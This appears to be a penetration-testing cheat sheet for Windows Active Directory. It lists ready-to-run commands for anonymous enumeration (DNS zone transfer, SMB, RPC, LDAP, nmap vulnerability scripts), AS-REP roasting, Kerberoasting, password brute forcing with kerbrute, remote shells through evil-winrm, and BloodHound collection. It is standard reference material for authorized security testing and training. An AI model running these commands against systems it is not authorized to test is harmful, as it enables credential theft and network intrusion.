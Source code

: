 # Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server -N
	
### Anonymous RPC

	rpcclient -U "" -N <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
### kerbrute

If all else fails, try to brute force the users you gathered.  You can always try usernames as passwords
https://github.com/TarlogicSecurity/kerbrute

	kerbrute.py -users users.txt -passwords users.txt -domain <domain> -dc-ip <IP>
	
## Enumeration with credentials or post initial shell

### Shell

If WinRM is listening and exposed

	evil-winrm -u <username> -p <password> -i <host or IP>
	
### Get groups and privs

	whoami /all
	
### Your favorite priv escalation script

	https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat
	
### Kerberos

#### Kerberoasting

	GetUserSPNs.py domain.name/user:password -outputfile kerbroast.txt
	
#### Bloodhound

Use WinRM, meterpreter, etc. to upload SharpHound.ps1

	.\SharpHound.ps1 -CollectionMethod all
	
Download the zip file and import into Bloodhound and go from there.
